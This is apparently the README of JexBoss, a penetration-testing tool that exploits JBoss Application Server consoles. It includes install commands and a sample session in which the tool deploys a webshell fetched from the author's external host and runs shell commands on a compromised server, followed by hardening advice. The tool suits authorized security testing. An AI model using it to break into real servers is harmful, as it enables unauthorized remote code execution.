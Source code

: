 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python >= 2.7.x
* [urllib3](https://pypi.python.org/pypi/urllib3)

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py

	OR:

	Download the latest version at: https://github.com/joaomatosf/jexboss/archive/master.zip
	unzip master.zip
	cd jexboss-master
	python jexboss.py

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /admin-console [ NEW ]
	- tested and working in JBoss versions 5 and 6
* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6
* /web-console/Invoker
	- tested and working in JBoss versions 4
* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5

Usage example
----
* Check the file "demo.png"

```
* Via git:

$ git clone https://github.com/joaomatosf/jexboss.git
$ cd jexboss
$ python jexboss.py https://site-teste.com

* Or via download:

$ wget https://github.com/joaomatosf/jexboss/archive/master.zip
$ unzip master.zip
$ cd jexboss-master
$ python jexboss.py https://site-teste.com


 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking admin-console: 	       [ EXPOSED ]
 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	   [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - *

 * https://site-teste.com:

 Linux seglinux 3.18.4-1.el6.elrepo.x86_64 #1 SMP Wed Jan 28 13:28:52 EST 2015 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /home
total 16
drwxr-xr-x.  4 root  root  4096 Jan 26  2015 .
dr-xr-xr-x. 23 root  root  4096 Mar 31 04:51 ..
-rwxrwxrwx.  1 root  root     0 Jan 26  2015 file1
-rw-r-----.  1 root  root     0 Jan 26  2015 file2
-rw-rw-r--.  1 root  root     0 Jan 26  2015 file3
drwx------.  2 joao  joao  4096 Jan 26  2015 joao
drwx------.  2 maria maria 4096 Jan 26  2015 maria

[Type commands or "exit" to finish]
Shell>exit

Results: potentially compromised server!
 * - - - - - - -  - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*
 Recommendations:
 - Remove web consoles and services that are not used, eg:
    $ rm web-console.war
    $ rm http-invoker.sar
    $ rm jmx-console.war
    $ rm jmx-invoker-adaptor-server.sar
    $ rm admin-console.war
 - Use a reverse proxy (eg. nginx, apache, F5)
 - Limit access to the server only via reverse proxy (eg. DROP INPUT POLICY)
 - Search vestiges of exploitation within the directories "deploy" and "management".

 References:
   [1] - https://developer.jboss.org/wiki/SecureTheJmxConsole
   [2] - https://issues.jboss.org/secure/attachment/12313982/jboss-securejmx.pdf

 - If possible, discard this server!
 * - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*

 * Info: review, suggestions, updates, etc:
   https://github.com/joaomatosf/jexboss

 * DONATE: Please consider making a donation to help improve this tool,
           including research to new versions of JBoss and zero days.

 * Paypal:  joaomatosf@gmail.com
 * Bitcoin Address:  14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C
 * URI:  bitcoin:14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C?label=jexboss
```

Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com


